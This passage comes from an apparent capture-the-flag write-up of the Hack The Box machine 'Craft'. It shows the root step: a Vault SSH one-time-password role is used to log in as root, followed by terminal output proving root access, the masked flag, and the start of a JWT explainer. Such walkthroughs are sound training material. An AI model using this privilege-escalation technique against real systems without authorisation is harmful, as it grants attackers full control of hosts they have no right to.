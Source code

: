 But more importantly, I can use the ssh command to connect:

```

gilfoyle@craft:~$ vault ssh -mode=otp -role=root_otp root@127.0.0.1
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 6c5f8635-d25a-958e-078b-e929255b949d

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 16 01:52:13 2019 from 127.0.0.1
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)

```

From there I can grab `root.txt`:

```

root@craft:~# cat root.txt
831d64ef************************

```

## Beyond Root - JWT

### JWT Overview

I’ve looked at JWTs [before](/tags.html#jwt). They are basically broken into three parts, each base64-encoded, and separated by `.`. [jwt.io](https://jwt.io/) shows this nicely:
